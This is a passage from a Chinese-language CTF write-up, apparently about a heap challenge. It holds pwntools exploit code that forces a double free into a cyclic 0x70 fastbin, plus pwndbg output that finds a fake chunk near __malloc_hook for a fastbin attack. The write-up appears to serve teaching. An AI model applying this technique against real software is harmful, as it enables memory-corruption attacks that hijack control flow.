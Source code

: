 ```python
    # 2. create cycle fastbin 0x70 size
    index_sentence('a' * 0x5d + ' d ')  #a
    index_sentence('b' * 0x5d + ' d ')  #b
    index_sentence('c' * 0x5d + ' d ')  #c

    # a->b->c->NULL
    search_word('d')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('y')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('y')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('y')

    # b->a->b->a->...
    search_word('\x00')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('y')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('n')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('n')
```

效果如下

```shell
pwndbg> fastbins
fastbins
0x20: 0x0
0x30: 0x1d19320 ◂— 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x1d191b0 —▸ 0x1d19010 —▸ 0x1d191b0 ◂— 0x1d19010
0x80: 0x0
```

#### 分配 malloc_hook 附近chunk

此时，fastbin 的链表为 b->a->b->a->…，则我们可以在申请第一个相同大小的 chunk 时，设置 b 的 fd 为 malloc_hook 附近处的 chunk `0x7fd798586aed`（这里是举一个例子，代码中需使用相对地址）。

```shell
pwndbg> print (void*)&main_arena
$1 = (void *) 0x7fd798586b20 <main_arena>
pwndbg> x/8gx 0x7fd798586b20-16
0x7fd798586b10 <__malloc_hook>:	0x0000000000000000	0x0000000000000000
0x7fd798586b20 <main_arena>:	0x0000000000000000	0x0000000000bce130
0x7fd798586b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7fd798586b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
pwndbg> find_fake_fast 0x7fd798586b10 0x7f
FAKE CHUNKS
0x7fd798586aed PREV_INUSE IS_MMAPED NON_MAIN_ARENA {
  prev_size = 15535264025435701248,
  size = 127,
  fd = 0xd798247e20000000,
  bk = 0xd798247a0000007f,
  fd_nextsize = 0x7f,
  bk_nextsize = 0x0
}
pwndbg> print /x 0x7fd798586b10-0x7fd798586aed
$2 = 0x23
pwndbg> print /x 0x7fd798586b20-0x7fd798586aed
$3 = 0x33
```